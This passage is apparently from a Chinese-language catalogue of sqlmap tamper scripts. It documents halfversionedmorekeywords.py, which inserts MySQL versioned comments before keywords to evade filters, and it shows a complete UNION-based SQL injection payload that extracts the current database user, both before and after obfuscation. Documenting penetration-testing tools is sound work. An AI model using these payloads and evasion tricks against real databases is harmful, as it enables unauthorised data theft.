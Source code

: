 *   Oracle 10g
    
*   PostgreSQL 8.3, 8.4, 9.0
    

案例一:wooyun.org/bugs/wooyun-2010-046496

脚本名：halfversionedmorekeywords.py
--------------------------------

* * *

作用：关键字前加注释

```
Example: 

* Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa 

* Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa

```

Requirement:

*   MySQL < 5.1

Tested against:

*   MySQL 4.0.18, 5.0.22

收集于: http://www.91ri.org/7852.html http://www.91ri.org/7869.html http://www.91ri.org/7860.html